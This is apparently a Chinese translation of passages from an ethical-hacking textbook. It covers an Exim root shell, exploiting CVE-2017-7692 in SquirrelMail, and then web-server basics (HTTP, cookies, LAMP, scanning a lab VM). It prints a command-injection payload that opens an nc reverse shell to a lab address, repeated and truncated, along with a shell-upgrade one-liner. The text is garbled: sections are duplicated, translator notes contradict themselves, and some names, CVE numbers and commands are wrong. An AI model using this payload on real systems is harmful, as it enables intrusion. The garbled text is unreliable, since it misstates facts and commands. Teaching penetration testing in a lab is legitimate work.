一旦你运行了 `program01`：你应该看到类似如下的提示符：

```text
root@mailserver01:/var/spool/exim
```

你现在拥有了一个交互式终端，可以随心所欲且轻松地遍历文件系统了！获得这一点后，如果你为客户工作，你会小心地进入下一个阶段，利用阶段将涉及捕获影子文件（shadow files），并检查公司不希望被访问的关键信息是否存在。当你向客户解释该问题的严重性时，这会为你的报告增加真实价值。在发现此类漏洞时，可以通过运行脚本（这是一项简单的活动）获得 root 权限，你应该立即通知你的客户。在与他们交谈时，你脑中还应该准备好修复建议，例如更新软件或临时禁用它。这种类型的问题被认为是关键的，应该尽早上报。2019 年 6 月 6 日，Exim 中发现了一个新漏洞（`CVE-2019-1014`）。该漏洞允许以我们刚刚检查的问题类似的方式进行远程命令执行和权限提升。从历史上看，Exim 一直是 Linux 主机漏洞的来源，这种趋势可能会持续。

## 利用 CVE-2017-7692

这个特定的漏洞影响一个名为 SquirrelMail 的 Web 客户端。我们将查看 MTA 使用时如何利用此漏洞。与之前检查的其他利用相比，这个特定的利用执行起来稍微有点复杂——它是一项高级练习，你可以在完成后续内容后回来这里复习。以下解释的部分在你读完后两章后（第 7 章“漏洞世界”和第 12 章“Web 应用程序”）将会有更多意义。因为它专门演示了通过 `mail()` 函数在邮件功能中命令注入的概念，因此我们将其包含在此处。你需要使用一个中间人代理工具，例如 Burp Suite 的免费版，或者对于倾向于使用命令行的人来说，使用命名恰当的 Mitmproxy（中间人代理）。这两个工具都包含在 Kali Linux 中。我们将在第 7 章中探索 Burp Suite，它将成为我们拦截和检查 HTTP 请求的首选工具。它为许多 Web 任务提供了图形界面，是许多安全专家首选工具。要利用 `CVE-2017-7692`，首先作为用户（你已经通过其他手段获取了凭据）登录 SquirrelMail 应用，并进入个人信息。将用户的邮箱地址设置为 `a@a.com`，确保 Burp Suite 中开启了 Intercept（拦截）。当你点击 Submit（提交）时，Burp Suite 会拦截你的 Web 请求。在 Burp Suite 的 Intercept 标签页中，将 POST 请求中的参数 `new_email_address` 更改为：

```text
new_email_address=%40localhost%2b%09$run("/bin/nc%09-e%09/bin/sh%192.168.56.100%
```

（注：原文末尾的 `%192` 疑似为误，应为 `%192`，此处保留原文内容）

```text
new_email_address=%40localhost%2b%09$run("/bin/nc%09-e%09/bin/sh%192.168.56.100%
```

（注：根据上下文，原文此处可能存在截断或格式错误，此处按字面保留）


# 升级你的 Shell

为了让生活更轻松，你可以执行一些可以称作“升级你的 Shell”的操作。这并不是一个技术术语，但它完美地描述了你正在做的事情。正如你将看到的，许多利用并没有像前面演示的那样获得 root 权限，而升级 Shell 对于在远程主机上运行进一步的利用以提升权限是必要的。有许多方法可以进行升级，但其中一个很棒的方法是运行以下 Python 一行命令：

```
python -c "import pty; pty.spawn('/bin/bash')"
```

这是一个完整的 Python 程序，它导入了 `pty` 模块（来自 Python 库），然后运行了 `spawn` 函数。传递给这个 `spawn` 的参数是 `/bin/bash`，这是大多数 Unix 类系统上 bash 解释器的完整路径。这一切都是在目标机器上完成的。我们依赖于 Python 安装了必要的 `pty` 模块，并且它存在于 `/bin` 目录中。

> **提示**：Metasploit 框架包含一个用于管理在远程主机上执行的负载的命令。你可以使用 `sessions` 命令来交互列出所有当前可用会话、杀死会话以及控制会话。一个非常有用的功能是 `sessions -u`，它可以升级类似于从 Exim 利用中获得的终端。它的实现方式与 Python 示例类似。

一旦你运行了 `program01`：你应该看到类似如下的提示符：

```
root@mailserver01:/var/spool/exim
```

你现在拥有了一个交互式终端，可以随心所欲且轻松地遍历文件系统了！获得这一点后，如果你为客户工作，你会小心地进入下一个阶段，利用阶段将涉及捕获影子文件（shadow files），并检查公司不希望被访问的关键信息是否存在。当你向客户解释该问题的严重性时，这会为你的报告增加真实价值。在发现此类漏洞时，可以通过运行脚本（这是一项简单的活动）获得 root 权限，你应该立即通知你的客户。在与他们交谈时，你脑中还应该准备好修复建议，例如更新软件或临时禁用它。这种类型的问题被认为是关键的，应该尽早上报。2019 年 6 月 6 日，Exim 中发现了一个新漏洞（CVE-2019-1014）。该漏洞允许以我们刚刚检查的问题类似的方式进行远程命令执行和权限提升。从历史上看，Exim 一直是 Linux 主机漏洞的来源，这种趋势可能会持续。

# 利用 CVE-2017-7692

这个特定的漏洞影响一个名为 SquirrelMail 的 Web 客户端。我们将查看 MTA 使用时如何利用此漏洞。与之前检查的其他利用相比，这个特定的利用执行起来稍微有点复杂——它是一项高级练习，你可以在完成后续内容后回来这里复习。以下解释的部分在你读完后两章后（第 7 章“漏洞世界”和第 12 章“Web 应用程序”）将会有更多意义。因为它专门演示了通过 `mail()` 函数在邮件功能中命令注入的概念，因此我们包含在此处。你需要使用一个中间人代理工具，例如 Burp Suite 的免费版，或者对于倾向于使用命令行的人来说，使用命名恰当的 Mitproxy（中间人代理）。这两个工具都包含在 Kali Linux 中。我们将在第 7 章中探索 Burp Suite，它将成为我们拦截和检查 HTTP 请求的首选工具。它为许多 Web 任务提供了图形界面，是许多安全专家首选工具。要利用 CVE-2017-7692，首先作为用户（你已经通过其他手段获取了凭据）登录 SquirrelMail 应用，并进入个人信息。将用户的邮箱地址设置为 `a@a.com`，确保 Burp Suite 中开启了 Intercept（拦截）。当你点击 Submit（提交）时，Burp Suite 会拦截你的 Web 请求。在 Burp Suite 的 Intercept 标签页中，将 POST 请求中的参数 `new_email_address` 更改为以下：

```
new_email_address=%40localhost%2b%09$run("/bin/nc%09-e%09/bin/sh%192.168.56.100%
```

# 总结

在本章中，你学习了关于工作邮件的一些基础知识，并了解了协议本身存在的缺陷。例如，SMTP 最初定义于一个网络上的任何地方都可以受信任的时代——在互联网出现之前——尽管现在它增加了一些额外的功能，但它仍在使用中。开放中继（Open relays）曾是允许邮件在网络上传输的必需品，但在今天，如果被垃圾邮件发送者发现，只会被滥用。

你还看到了邮件头信息如何暴露信息，以及无法送达收件人的邮件。你查看了一个邮件服务器，并发现它运行着各种邮件服务，这些服务共同涵盖了整个邮件链。在本章中更详细地探索了 Nmap，你应该开始看到这类工具的潜力。

邮件软件与任何其他软件一样，本质上是有缺陷的，因为它是由编写编程语言的人（这些语言也是由人编写的）编写，并构建在一个更加纯真的时代开发的技术之上的。有时软件会包含微小的错误，只需要修改几行代码即可修复问题；“血溢漏洞”（Heartbleed Bug）就是此类的一个例子。

你通过利用 POP3 服务对用户账户进行了暴力破解，该服务在登录尝试失败时不会锁定账户，这些服务可能应该被弃用，转而使用更现代 IMAP。你还发现服务器运行着带有已知漏洞的 Vim 版本，并发现了利用程序，最终允许你接管服务器并获得 root 权限。

我们在本章谈到 SSL/TLS（及其问题）时提到了加密。但在这里我们仅触及皮毛，我们将在书中深入探讨所有这些点。许多邮件用户仍然认为邮件是安全的，绝大多数邮件都由 Microsoft、Fastmail 和 Google 等提供商加密，但并不是端到端加密，恶意黑客有大量机会访问它。良好的隐私（PGP）允许用户使用私钥（希望仅限收件人）来加密他们的邮件。对于任何发送邮件并认为邮件内容为私密的个人或公司，都推荐这种方法，在很多情况下，正如像这样的页脚所示，这确实是如此：

> 本邮件及随附传输的任何文件均为机密信息，仅供收此邮件的个人或实体使用。如果您错误接收了此邮件，请通知系统管理员。此消息包含机密信息，仅供指定个人使用。如果您不是指定的收件人，不应传播、分发或复制此邮件。如果您误收了此邮件，请立即通过邮件通知发送者并从您的系统中删除此邮件。如果您不是预期的收件人，特此通知严禁根据这些信息的内容披露、复制、分发或采取任何行动。

正如你可以想象的，黑帽犯罪分子并不关心这类段落。作为一个伦理黑客，你有责任教育他人（温和地而非强制地）并以身作则。

# 第 7 章：漏洞的世界

本章将主要关注针对 Web 服务器的基础设施攻击。你将探索支持 Web 应用的技术，包括 Web 协议、Web 服务器软件和服务器端技术。你将看到如何通过利用这些 Web 技术中的漏洞获取底层操作系统的访问。最终，Linux 内核本身将被利用，以获取本书实验室的 root 权限。

你可能已经熟悉常见的 Web 服务器，如 Apache、Nginx 和 Microsoft Internet Information Services (IIS)。我们还将检查超文本传输协议（HTTP）以及该协议的所谓安全版本（HTTPS）。我们将查看 Java servlets，它们是用于在 Java 中托管 Web 应用（如在线银行使用的）的容器。

我们将使用用于识别 Web 基础设施和遗留技术（如通用网关接口 CGI）弱点的工具。你还将接触到受 Heartbleed 漏洞影响服务的额外问题，我们同样会研究 Shellshock，另一个知名且广泛的漏洞。

在处理了许多典型的 Web 服务器端口后，我们将调查你可能在受攻击的 Web 服务器上提升权限的方法之一。本章将探索实际 Web 应用（你通常会发现它运行在 80 和 443 端口）几乎所有的内容。

## 万维网

万维网（WWW）被某些人与互联网混淆，但两者非常不同。WWW 是蒂姆·伯纳斯-李（Tim Berners-Lee）的创造，最初被设计为一种以页面形式共享简单信息——文本和图像的方法。这些页面使用名为超文本传输协议（HTTP）的协议在机器之间传输。

自从诞生以来，Web 页面一直在不断开发。超文本传输协议 1.1 版本定义在 RFC 2616 中，但还有后续版本——HTTP/2（你可以在 RFC 7540 中找到）和 HTTP/3（它还没有 RFC）。我们将参考协议的 1.1 版本，它尚未被新版本取代且仍在使用中。

HTTP 描述了 HTML 文档传输的方式，不要与内容的 HTML 混淆。今天，HTTP 常用于传输各种文件和文件类型，而不限于 HTML。

> **注意**：网站通常会使用几种重定向之一将不安全的请求（通过明文 HTTP 发送）重定向到 TCP 端口 443，响应码以 3 开头。301（“永久移动”）和 302（“找到”）代码通常用于强制用户的浏览器访问 HTTPS URL 而不是 HTTP。浏览器将向新 URL 发送另一个请求并接收响应。

消息体包含请求的文档，例如用 HTML 编写的网页。一个典型的 HTTP 请求如下所示：

```
GET /src/login.php HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Linux; x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
DT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

一个基础 HTTP 响应如下所示：

```
HTTP/1.1 200 OK
Server: nginx/1.4.0
Date: 20 Feb 2019 10:49:42 GMT
Content-Type: text/html;charset=iso-8859-1
Connection: close
Set-Cookie: SQMSESSID=7hmfcqfsroqmrd1199uu4ku2;path=/Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store,no-cache,must-revalidate,post-check=0,pre-check=0
Set-Cookie: SQMSESSID=7hmfcqfsroqmrd1199uu4ku2;=/ HttpOnly
Pragma: no-cache
Content-Length: 2287
```

```html
<!DOCTYPE HTML PUBLIC "//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
<meta name="robots" content="noindex,nofollow">
<title>HackerHouse - 登录</title>
</head>
<body>
<form action="redirect.php" method="post" name="login_form">
<input type="text" name="login_username" value="" onfocus="alreadyFocus=true;"/>
<input type="password" name="secretkey" onfocus="alreadyFocused=true;"/>
</form>
</body>
</html>
```

这些示例取自上一章的虚拟服务器（已删除了大部分 HTML）。在我们开始为 Web 服务器添加功能层（以及复杂性）之前，问题已经开始显现。HTTP 请求和响应包含头部（headers）和正文（bodies）。头部将包含有用信息（就像电子邮件一样）；例如正在使用的服务器软件类型。如果你查看响应，将看到以下：

```
Server: nginx/1.4.0
```

该服务器可能运行着 Nginx 1.4.0 版本，我们可以立即利用这些信息检查它是否为过时版本以及是否存在漏洞。许多 Web 服务器管理员都会确保真实版本号不会以此方式泄露；然而，某些开发者喜欢添加自己的自定义头部，从而泄露更多信息。当然，正文也很重要。目前，让我们关注 HTTP 而不是作为 HTML 的所提供的内容。

## HTTP 方法与动词

谦虚的 GET 请求在你浏览网站时随时都会用到，但 HTTP 还有更多动词可以使用，例如 OPTIONS 命令。该命令将告诉你 Web 服务器接受哪些命令。配置良好的 Web 服务器将只允许基本命令，但其他服务器可能允许你做比想象中更多的操作。像 Nmap 这样的扫描工具可以为你执行此类检查，并确定 Web 服务器接受哪些命令。不过，你也可以手动进行。现在让我们回顾这里列出的 HTTP 方法（也称为动词）：

- GET：请求资源（网页）
- HEAD：请求给定页面或资源的头部
- POST：向服务器发送某些数据（例如登录详情）
- PUT：向提供的 URL 上传文件
- DELETE：删除资源
- TRACE：回显请求（用于调试）
- OPTIONS：返回给定 URL 支持的方法
- CONNECT：请求服务器转发 TCP 连接
- PATCH：修改页面或资源的部分

属于你客户的典型运行或生产环境 Web 服务器仅支持 GET 和 POST 方法（可能支持 HEAD，其实际上等于不带正文的 GET 请求）。记住，这是一个面向 Web 服务器。你还可能看到对 OPTIONS 的支持，它应该只揭示其他三种是可能的。这意味着服务器将响应这些请求，并应该忽略或拒绝其他请求。如果你在 OPTIONS 请求的响应中看到 Web 服务器支持额外的 HTTP 方法，你应该评估并测试每一个方法，以识别任何对服务器需求可能是多余的行为。这种行为本身确实可能是一个问题，因为额外的 HTTP 方法允许你与服务器交互。

## HTTP 响应码

了解从服务器返回的响应类型对你将很有用。代码分为五类。1 表示信息性，2 表示成功，3 表示重定向，4 表示客户端错误，5 表示服务器错误。下表列出了响应码及其名称，取自 (tools.ietf.org/rfc7231#section-6.1)。

| CODE | NAME |
| :--- | :--- |
| 100 | Continue |
| 101 | Switching Protocols |
| 200 | OK |
| 201 | Created |
| 202 | Accepted |
| 203 | Non-Authoritative Information |
| 204 | No Content |
| 205 | Reset |


| 代码 | 含义 |
| :--- | :--- |
| 206 | Partial Content |
| 300 | Multiple Choices |
| 301 | Moved Permanently |
| 302 | Found |
| 303 | See Other |
| 304 | Not Modified |
| 305 | Use Proxy |
| 307 | Temporary Redirect |
| 400 | Bad Request |
| 401 | Unauthorized |
| 402 | Payment Required |
| 403 | Forbidden |
| 404 | Not Found |
| 405 | Method Not Allowed |
| 406 | Not Acceptable |
| 407 | Proxy Authentication |
| 408 | Request Timeout |
| 409 | Conflict |
| 410 | Gone |
| 411 | Length Required |
| 412 | Precondition Failed |
| 413 | Payload Too Large |
| 414 | URI Too Long |
| 415 | Unsupported Media Type |
| 416 | Range Not Satisfiable |
| 417 | Expectation Failed |
| 426 | Upgrade Required |
| 500 | Internal Server Error |
| 501 | Not Implemented |
| 502 | Bad Gateway |
| 503 | Service Unavailable |
| 504 | Gateway Timeout |

某些 HTTP 代码被保留供以后使用，例如 `418 I am a teapot`，可以在 `RFC 2324` 中找到（关于茶壶的 RFC）。Nginx Web 服务器还添加了自己的代码以提供更特定的

## 无状态

HTTP 的一个有趣的特性是，尽管它使用了面向连接的传输控制协议 (`TCP`)，但 HTTP 本身是无状态的。这意味着当你发送一个 HTTP 请求时，服务器监听、接收该请求并发送响应，之后就会关闭 `TCP` 连接。它不会跟踪谁连接了，也不知道同一个人何时再次连接；连接只是临时维护的。这样做是因为 Web 服务器在任何时候都可能为大量用户提供服务，因此与每个用户维持大量连接对计算机资源的要求很大。

> 如果需要，可以使用 `Connection: Keep-alive` HTTP 头部将 `TCP` 连接“保持活动”，直到传输完资源或连接超时。不同的服务器软件对于该任务将使用不同的计时设置，并可用于指纹识别。也可以使用 `Connection: Close` 头部强制关闭连接。

此外，如果你请求和接收的是静态网页，则没有必要维持状态。然而正如我们所知，纯静态网页大多出现在博物馆中（如 `fighters.com`）。今天，登录网站并发送导致自定义内容页面的请求是很常见的。如果没有 Cookie，你需要在每个 HTTP 请求中发送登录凭据（例如用户名和密码）。

## Cookies

Cookies 用于很多事情（遗憾的是，这种不能吃），但它们的关键作用之一是在用户计算机上存储一个令牌（通常是一串看似随机的字符）。该令牌会在每次请求时传递给 Web 服务器，并通常用作唯一标识访问者的方法。

# 第 7 章 漏洞万网

用于此目的的 Cookie 或令牌（`token`）通常与表中的记录相关、与运行在 Web 服务器上的数据库相关，或者可以被 Web 服务器访问或由服务器进程在内存中。此记录包含有关用户会话的信息，例如登录时间、IP 地址和某种形式的标识符，以便或其他表或数据库中进行链接。通过这种方式，在任何连接关闭后都可以维持状态。

当用户登录或身份验证 Web 应用程序（通过提交用户名和密码）时，他们的会话信息将被更新。Cookie 或令牌会被传回并验证用户身份，允许他们请求其他不可访问的资源。会有一个专门用于身份验证的 Cookie，其他 Cookie 可用于其他方式跟踪用户（例如定向广告和在线偏好）。用于身份验证的 Cookie 在用户更改状态（即登录或更改权限）时，其值总是会改变。会话应该在合理的时间后过期，用户必须重新提交其用户名和密码。这减少了与“会话劫持”（`session hijacking`）这种常见攻击形式相关的风险，攻击者利用受害者的合法、活动会话来访问其账户。如果攻击者能够以某种方式（例如从受害者计算机中窃取会话 Cookie，或者在传输过程中拦截它），这就是可能的。

会话固定（`Session fixation`）是当 Cookie 跨登录持续时可能发生的另一个问题。在这种情况下，可能利用受害者自己的 Cookie 对其攻击，因为知道该 Cookie 在受害者登录时会通过身份验证。攻击者随后使用相同的 Cookie 访问受害者的账户，因为 Cookie 值没有改变。

Cookie 也用于改进 Web 用户的体验。它们存储如你的语言偏好和优支付货币等内容。Cookie 在跟踪你和你的在线偏好方面扮演着更阴暗的角色，通过显示广告和操纵你的浏览体验来操纵用户。其他网站收集通过跟踪 Cookie 识别出的个人特征，意图将这些数据出售给第三方。这种做法现如今已随处可见，正是通过欧盟的 `GDPR` 等法律，Web 用户才重新获得了对访问网站或 Web 应用程序时所提供的数据的控制权。

# 统一资源标识符

统一资源标识符（`URLs`）被万维网用于以标准方式唯一标识网络上的资源，因此得此名。在引用 Web 资源时，统一资源定位符（`URL`）是一个更广泛使用的术语。`URL` 在技术上是 `URL` 的一种形式或类型；从现在起我们将使用 `URL`。`URL` 的语法如下：

```
protocol://[user:passwords]@[host[:port]]/path[?query]#fragment
```

这比你最初想象的要多。`URL` 不仅被 Web 使用（`telnet://`, `ftp://`, `file://`），而且 Web 还让普通个人通过它带入了日常生活。典型的 Web 用户倾向于点击（在搜索引擎的结果页中）包含 `URL` 的超链接，而不是手动输入，并且可能意识不到它们的含义。我们知道在点击任何 `URL` 之前要仔细检查，但恶意的黑客利用了普通用户中这种基础的无知。

访问 Web 资源的典型 `URL` 看起来像：`http://www.example.com/foobah.php?parameter=variable`。

`URL` 的所有元素并非必须的。这里有协议（`http`），后面是主机（`example.com`），该主机将由域名系统（`DNS`）解析为 IP 地址。不使用用户名和密码，因为资源不需要它们。此外，没有指定端口，因为默认情况下 HTTP 使用 80 端口，因此在未包含端口时假设是如此。路径是 `/foobah.php`，这表示我们正在请求 Web 服务器根目录下的一个 PHP 文件。最后，给了一个查询（`query`），运行在服务器上的 PHP 代码可以访问它。

你可以将此查询想象为运行在 Web 服务器上的程序。片段（`Fragments`）由哈希符号（`#`）表示，有时作为 `URL` 的最后部分包含，通常用于引用请求数据的特定部分。片段的一个很好的例子可以在维基百科页面上看到，比如这个，它全是片段：`en.wikipedia.org/wiki/Fragment_identifier#basics`。

通过输入类似这样的 Web 服务器地址的 `URL`，你是在要求浏览器向主机发送请求。当 `URL` 中使用参数和变量时，例如 `https://192.168.56.101/src/read_body.php?mailbox-INBOX&passed_id=4&startMessage=1`，`URL` 通常是一个 `GET` 请求。`GET` 请求的理念是根据给定的标准请求某些信息并返回这些信息。`GET` 请求的示例从浏览器发送时看起来如下所示：

```
/get/read_body.php?mailbox=INBOX&passed_id=4&startMessage=1 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xml,application/xml;q=0.9,*;q=0.8
Accept-Language: en-US, deflate
Accept-Encoding: gzip
Cookie: SMSESSID=9guij43b5b4silicon2unvkq3=3
T: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

再次，这是来自上一章免费服务器的示例。在发送此类请求时，我们正在向运行后端的程序发送参数。后端代码将期望某个范围内的参数，我们可以尝试在该参数内提供意外的数据，以导致不可预见的结果。

调整 `URL` 中这些变量的过程被称为 HTTP 参数篡改（`HTTP parameter tampering`），这实际上非常容易——黑客执行此操作所需的工具只有 Web 浏览器。参数篡改的目标是导致 Web 服务器执行一些简单的操作，例如显示错误消息（这可能意味着服务器显示其 `/etc/passwd` 文件的内容）。你可能会修改名为 `userid` 的参数，以访问你作为网站匿名访客不应该看到的文档。

# LAMP: Linux, Apache, MySQL, PHP

现代 Web 服务器依赖于多个运行并协同工作的程序，以实现提到的许多概念和协议（包括 `HTTP`、`HTML`、`Cookie` 和 `URL`），并提供包含动态内容的网页。

## 第 7 章 - 漏洞的广网

对于访问者。三层架构是 Web 上最广泛采用的架构之一。在这种架构中，Web 应用由 Web 服务器托管，该服务器使用数据库向用户的 Web 浏览器传递动态内容。

最常见的部署软件集合之一是 LAMP 栈。LAMP 代表 Linux、Apache、MySQL 和 PHP。它之所以被称为“栈”（`stack`），是因为这些组件实际上是相互堆叠的。当然，你也会遇到 LAMP 栈的变体，例如 W 栈（W 代表 Windows）以及完全不同的堆栈。如图 7.1 所示，操作系统（Linux）位于栈的底部，Web 服务器软件（Apache）位于其上方。现在我们有一个数据库（MySQL），在它的上方是一个服务器端脚本语言（PHP），它获取这些内容并将其渲染为 HTML。这是对栈的一种极其简单的表示方法，你可以在网上找到各种图表，它们以不同复杂程度展示各层之间的关系。由于 Linux 贯穿全书，并且并非专门用于 Web 服务器，让我们来看栈的下一层：Apache。



图 7.1：LAMP 栈的基本表示

## Web 服务器：Apache

Apache 是一种提供 Web 常用程序。你可能已经在你的 Kali Linux 设备上安装了 Apache，可以通过几个简单的命令在该机器上启动运行 Web 服务。事实上，这几乎就是运行基础 Web 服务器所需的所有内容——以及一些 HTML 文件形式的内容，这些内容可以使用任何文本编辑器快速方便地编写。那么，Web 服务是一个通用术语，指监听 HTTP 请求并以 HTTP 响应进行响应的软件。

Apache 是免费的开源软件，已经存在了很长时间。正如你所预期的，Apache 中发现了许多漏洞并随着时间的推移被公开。只需查看此页面：`www.cvedetails.com/vulnerability-list/vendor_id-45/Apache.html`。Nginx 和 Microsoft IIS 是 Web 栈中常见的另外两种 Web 服务器软件。我们稍后会详细查看它们。

## 数据库：MySQL

对于现代 Web 应用，通常会有一个如 MySQL 这样的数据库服务由 Web 服务器运行（或由其访问）。该数据库通常包含网站的大部分内容。例如，对于多级博客，此数据库将包含博客文章、用户详情、图片链接等。还会有一个数据库（这可能与存储内容的数据库分开），用于结合 Cookie 跟踪用户会话。记住，数据库本身只是一个引用存储在其他处数据的令牌。在更安全的设计中，数据库通常不会安装在 Web 服务器本身上，而是安装在额外的私有网络主机内部。数据库应该只允许 Web 服务器访问，但有方法可以绕过此类限制。这一方面将在第 11 章“数据库”和第 12 章“Web 应用”中探讨。

MySQL 是管理内容的流行选择，但也有许多其他选择。其中包括 PostgreSQL、MariaDB、Oracle 和 Microsoft SQL Server。这些选项将在本书后后部分介绍。现在，你必须理解，数据库通常是允许网站运行的不可或缺的组成。你应该时刻关注可能让你访问此类数据库的信息——即使只是知道一些常用数据库的名称对你也有帮助。

## 服务器端脚本：PHP

最后，栈的顶层是 PHP（PHP：超文本预处理器），我们在我们在上一章中简要讨论过它。PHP 用于服务器端脚本；即代码在 Web 服务器本身上运行。这些代码用于使用 MySQL（或其他）数据库中存储的数据来创建动态页面。没有任何两个用户需要再次看到完全相同的 Web 页面！在本章中，我们将编写一些 PHP，并查看恶意用户如何利用这些代码安装后门，通过后门可以在底层操作系统上运行 shell 命令。

PHP 语言在语法上借鉴了 C 和 Perl。它由 Zend（PHP 的标准脚本引擎，用 C 语言编写）解释，并由开源软件社区进行持续开发。它被广泛用于实现具有动态内容的网站。它拥有极其庞大的库、大量的功能，并且历史上存在许多漏洞。当你从 Web 服务器上搜索内容时，可能会遇到 `config.php`，它通常包含敏感信息。对于对 PHP 完全陌生的读者，这里有一个极其基础的示例：

```
<?php
echo "<h1>Hello World</h1>";
?>
```

PHP 经常用于动态“编写” HTML。当上一个示例在用户的浏览器中渲染时，他们看到的只是作为标题的“Hello World”。服务器端代码是隐藏不可见的。在 PHP 开发过程中犯了许多错误，它包含了许多可以被利用的缺陷。

PHP 只是可能用于服务器端脚本的语言之一。它非常流行，但也有许多其他用于此目的的语言，例如 Python、Perl、ASP 和 ASP.NET（ASP 代表 Active Pages）、Ruby 和 Node.js。

## 三层架构

| 描述 |
| :--- |
| 当你考虑 Web 服务器及其应用程序时，会使用三层架构，使用刚刚介绍的 LAMP 栈会让人有点困惑。这种三层架构由客户端（表现层）、Web/Web 层（逻辑层）以及数据库或后端（数据存储层）组成。在这种模型中，客户端是访问 Web 应用的 Web 浏览器。Web 浏览器开启了许多攻击可能性，因为它通常以 JavaScript 的形式运行某些客户端代码。Web 浏览器直接与 Web 层通信。它发送 HTTP 请求并接收包含数据（以及程序）的响应，数据库（或后端）层并不直接连接客户端。相反，Web/应用层（例如使用 PHP 编写的代码）与客户端通信。<br>黑客正在寻找从客户端层直接连接到后端的方法，后端存储着所有真正有趣的信息，包括用户名、密码、地址和支付详情等信息。客户端也可以通过用户无意中运行恶意 JavaScript 代码来被攻击。最后，Web 应用本身也可以受到攻击。我们将在第 12 章探讨如何做到这一点。 |

## Nginx

Nginx（读作 engine-X）比 Apache 有更现代的起源。它是免费的开源软件（尽管有各种商业 Nginx 产品），主要设计用于同时服务大量用户。你可以在 `nginx.org`（开源下载）和 `www.nginx.com`（Nginx 公司的网站）找到 Nginx。Nginx 最初由 Igor Ysoev 编写，以解决热门网站接收的大量流量，如今已变得广泛。它既作为独立服务器使用，也作为 Apache 等 Web 服务器的反向代理。你不应该假设你正在查看或测试的服务器是其中一种——它可能同时运行，由 Nginx 处理 HTTP 请求和缓存，而 Apache 在后台工作处理服务器端代码执行并交付 Web 应用。再次，有很多有趣的漏洞供你搜索和阅读。一个定义良好的用于获取远程代码执行的高级漏洞，也是在野外使用的之一，可以在这里找到 Nginx 1.4 版本：

```
packetstormsecurity.com/files/125758/nginx-1.4.0-64-bit-Linux-Remote-Code-Execution.html
```

## Microsoft IIS

IIS 是付费的专有软件。如果你发现它运行在 Web 服务器上，你可能假设底层操作系统是某种形式的 Microsoft Windows。你可能会在 Windows Server 2019 上发现 IIS 版本 10，IIS 已经存在很久，这意味着你有机会在网络上发现旧版本，这些版本包含一些有趣的漏洞，例如 `CVE-2017-7269`，它允许攻击者通过缓冲区溢出漏洞滥用 Web 分布式授权与 WebDAV 并执行任意代码。该漏洞（以及类似的漏洞）发现于 NSA 泄露并由名为 Shadow Brokers 的小组发布的工具中。

> 注意 WebDAV 是 HTTP 的扩展，增加了用于远程操作和编辑网页的附加方法。它被广泛用于将文件上传到远程 Web 服务器，并内置于大多数操作系统中。网站所有可以使用额外的 HTTP 动词 `PUT` 上传内容可以通过向目标服务器发送 `OPTIONS` 请求来发现此或其他 WebDAV 命令。在 Nmap 等其他漏洞扫描器的输出中要留意这些额外的动词。

## 爬虫与蜘蛛程序


# Web 服务器黑客工具箱

也许最通用的 Web 攻击工具是那虽然谦虚的浏览器——仅凭它就能做很多事情。你将希望像开发者一样使用 Web 浏览器，以识别内容显示方式不一致之处。现代浏览器还具有某种形式的“开发者模式”，可以用它来查看和更改文档源代码、查看发送的 HTTP 请求和响应、查看调试信息、检查内存使用等。

# 第 7 章：漏洞遍布的世界网

在本章中，我们将关注命令行工具，并尝试通过练习加深你对 Netcat 的理解。我们将使用这些工具帮助你理解 HTTP 和 Web 服务器技术。以下是你发现的对于攻击非常有用的工具类型和示例：

- Web 浏览器（Firefox 和 Chrome）
- 命令行 Web 工具（`curl` 和 `Wget`）
- 内容发现工具（`Dirb`）
- Web 漏洞和 CGI 扫描工具（`Nikto`）
- Web 扩展工具（用于与 WebDAV 交互的 `Cadaaver`）
- 服务器端脚本后门工具（`Weeely` 或 ASP.NET）
- 隧道程序（`Proxchains`）
- 通用工具（`Nmap`、`Netcat`、`Metasploit` 和 `Searchscript`）

## 扫描 Web 服务器

本章的练习，你应该使用书籍（`www.hackerhouse.com/hh-booklab-vi-i386.hybrid.iso`）。将书籍 ISO 插入到你的漏洞虚拟机（VM）中，替换你在上一章使用的邮件 ISO，并重启虚拟机。起初，你可能想进行一次基础扫描以获取结果，然后使用同一组扫描选项对你的邮件服务器进行更全面的扫描。全面扫描命令中增加了一个变化，即添加了 `-ox` 选项，它将你的扫描结果输出到 XML 文件。`Nmap` 命令看起来如下：

```
nmap -sT -p -vv -Pn -oN ebook.txt -X ebook.xml
192.168.5.110
```

没有必要等待此扫描完成。评估 Web 服务器的逻辑起点是 80 端口，因为它是 HTTP 的默认端口，且在执行初始基础扫描时理想情况下它是开启的。因此，将你的服务器指向 80 端口并开始探索。你可以通过简单在浏览器中输入 `http://<TargetIP>` 来实现（如果你省略了 `http://`，你的浏览器通常会自动选择此协议作为默认）。你还应该检查 443 端口（HTTPS 的默认端口），可以通过访问 `https://<TargetIP>` 来。这些位置是你预期面向客户端的 Web 应用程序所在地。仅通过 443 端口而非 80 端口提供 HTTP 服务变得越来越普遍，这可能将客户端（浏览器）限制在 443 端口。事实上，在 80 端口发现内容本身可能构成一种漏洞。这是因为通过该连接发送的任何数据（如用户名、密码或 Cookie）都不会被加密，处于合适位置的恶意黑客可以使用 `Wireshark` 或 `TCPdump`（`www.tcpdump.org`）等数据包分析器拦截并轻松读取。

你还可以检查并尝试对其他端口建立 HTTP 连接，通过附加数字并在 HTTP 和 HTTPS 之间切换协议，例如 `http://192.168.56.110:8080`。你的浏览器还允许你使用其他端口访问服务（例如文件传输协议 FTP），使用如下 URL：`ftp://192.168.56.110`。

一旦全面的 `Nmap` 扫描完成，你可以获取 XML 格式输出的结果，将其转换为 HTML 并在浏览器中查看这些内容。

```
